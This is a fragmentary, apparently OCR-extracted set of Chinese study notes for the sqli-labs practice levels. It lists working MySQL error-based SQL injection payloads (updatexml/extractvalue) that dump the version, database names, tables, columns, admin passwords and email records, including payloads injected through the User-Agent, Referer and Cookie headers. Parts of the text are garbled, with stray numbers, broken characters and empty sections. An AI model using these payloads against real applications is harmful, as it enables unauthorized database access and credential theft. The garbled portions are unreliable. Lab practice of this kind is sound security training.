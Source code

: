10同九“

11在账号框内联合注入

12”

13‘

14“

1516可以布尔盲注，也能在画面中试出来

17报错注入

```
0' and (updatexml(1,concat(0x7e,version(),0x7e),1))#     爆版本
0' and (updatexml(1,concat(0x7e,database(),0x7e),1))#    爆数据库
0' and (updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1))#      爆表名
0' and (updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x7e),1))#
   爆字段名
0' and (updatexml(1,concat(0x7e,(select password from (select password from users where username='admin1') b),0x7e),1))#
爆密码该格式针对mysql数据库。
爆其他表就可以，下面是爆emails表
0' and (updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='emails'),0x7e),1))#
0' and (updatexml (1,concat(0x7e,(select group_concat(id,email_id) from emails),0x7e),1))#   爆字段内容。
```

18User-Agent头

```
1' ,2, (extractvalue(1,concat(0x7e,(select group_concat(password,username) from users),0x7e)))#   爆账户密码。
1',2,updatexml (1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#   爆账户密码。
```

19refer

```
1',updatexml (1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1))#
```

20cookie

```
'and updatexml (1,concat(0x5c,(select group_concat(username,password) from users),0x5c),1)#
```

21base64编码

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)21

![img](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)21编码

22双引号base64编码
